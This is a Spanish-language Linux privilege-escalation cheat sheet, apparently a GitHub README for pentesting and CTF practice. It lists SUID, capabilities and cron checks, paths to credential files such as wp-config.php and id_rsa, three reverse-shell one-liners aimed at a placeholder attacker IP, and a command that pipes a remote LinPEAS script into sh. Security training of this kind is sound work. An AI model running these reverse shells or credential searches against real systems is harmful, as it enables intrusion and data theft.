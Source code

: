 # PrivEsc en Linux

PrivEsc es la abreviatura de *Privilege Escalation* (escalada de privilegios), un proceso fundamental en la post-explotación de sistemas comprometidos. Este documento sirve como referencia cuando se obtiene acceso a una máquina, ya sea mediante una webshell o un usuario del sistema a través de SSH.

## ✨ Índice

1. 📌 [Contexto](#contexto)
2. 🖥️ [Mejorando la TTY](#mejorando-la-tty)
3. 🔥 [La escalada](#la-escalada)
   - 🔑 [Comprobación de privilegios](#comprobacion-de-privilegios)
   - 🎭 [Permisos SUID](#permisos-suid)
   - ⏰ [Crontabs y archivos sensibles](#crontabs-y-archivos-sensibles)
   - 📊 [Versiones del sistema y sudo](#versiones-del-sistema-y-sudo)
   - 🏗️ [Capabilities](#capabilities)
4. 🎯 [Revershell](#revershell)
5. 🛠️ [Herramientas automáticas](#herramientas-automaticas)
6. ✅ [Checklist](#checklist)
7. 📚 [Recursos](#recursos)

## 📌 Contexto

Si el acceso se ha conseguido a través de una webshell, es recomendable mejorar la interacción con el terminal para optimizar la ejecución de comandos y evitar problemas con la entrada y salida estándar.

## 🖥️ Mejorando la TTY

Para mejorar la TTY al obtener una shell:

- **🎭 Obtener una TTY interactiva**:
  ```sh
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
- **🔧 Establecer el modo de línea canónica y eco de entrada**:
  ```sh
  stty raw -echo
  export TERM=xterm
  ```
- **📏 Mejorar la compatibilidad con ciertas teclas**:
  ```sh
  stty rows 40 cols 100
  ```
- **📝 Habilitar el historial de comandos**:
  ```sh
  script /dev/null -c bash
  ```

## 🔥 La escalada

### 🔑 Comprobación de privilegios

- **🔍 Ver comandos sudo disponibles**:
  ```sh
  sudo -l
  ```
- **🆔 Ver grupos del usuario actual**:
  ```sh
  id
  ```

### 🎭 Permisos SUID

Los permisos SUID permiten ejecutar un binario con los privilegios del propietario del archivo:

```sh
find / -perm -4000 2>/dev/null
# 🎯 Objetivos comunes: find, nmap, vim, bash, nano, more/less, tcpdump
```

También se pueden buscar archivos con permisos de escritura para cualquier usuario:

```sh
find / -writeable 2>/dev/null
```

### ⏰ Crontabs y archivos sensibles

- **🛠️ Buscar tareas cron ejecutadas como root**:
  ```sh
  crontab -l
  cat /etc/crontab
  ```
- **📂 Rutas donde se pueden encontrar credenciales**:
  - 📍 `/opt`
  - 📍 `/tmp | /var/tmp`
  - 📍 `/var/backups`
  - 📍 `/var/mail`
  - 📍 `/var/www/html`
  - 📍 `/dev/shm`
  - 🔐 `/var/www/html/wordpress/wp-config.php`
  - 🔐 `/etc/apache2/.htpasswd`
  - 🕵️ Historial de comandos: `~/.bash_history`, `~/.zsh_history`
  - ⚙️ Archivos de configuración: `*.php`, `*.conf`, `*.yml`
  - 💾 Backups: `/var/backups/*`, `*.bak`, `*.old`
  - 🔑 SSH: `~/.ssh/id_rsa`, `/etc/ssh/sshd_config`
  - 🗄️ Bases de datos: `wp-config.php`, `settings.py`, `*.db`

### 📊 Versiones del sistema y sudo

Verificar información del sistema y la versión de sudo:

```sh
uname -a
lsb_release -a
sudo --version
```

### 🏗️ Capabilities

Las capabilities permiten asignar privilegios específicos sin necesidad de ser root:

```sh
getcap -r / 2>/dev/null
# 🚨 Peligrosas: cap_setuid+ep, cap_dac_read_search+ep
```

## 🎯 Revershell

Si encontramos un RCE y queremos obtener una shell:

```sh
# 🐚 Bash (si /dev/tcp está habilitado)
bash -i >& /dev/tcp/ATACANTE_IP/PUERTO 0>&1

# 🌐 Netcat tradicional
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATACANTE_IP PUERTO >/tmp/f

# 🐍 Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATACANTE_IP",PUERTO));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 🛠️ Herramientas automáticas

LinPEAS es un script útil para la escalada de privilegios:

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## ✅ Checklist

✅ Verificar `sudo -l` 📋 ✅ Buscar binarios SUID/GUID 🎭 ✅ Analizar tareas cron ⏰ ✅ Revisar capabilities 🏗️ ✅ Buscar credenciales expuestas 🔐 ✅ Explotar versiones vulnerables ⚡

## 📚 Recursos

- **🚀 GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)
- **📖 HackTricks**: [https://book.hacktricks.xyz/](https://book.hacktricks.xyz/)
- **💣 PayloadsAllTheThings**: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
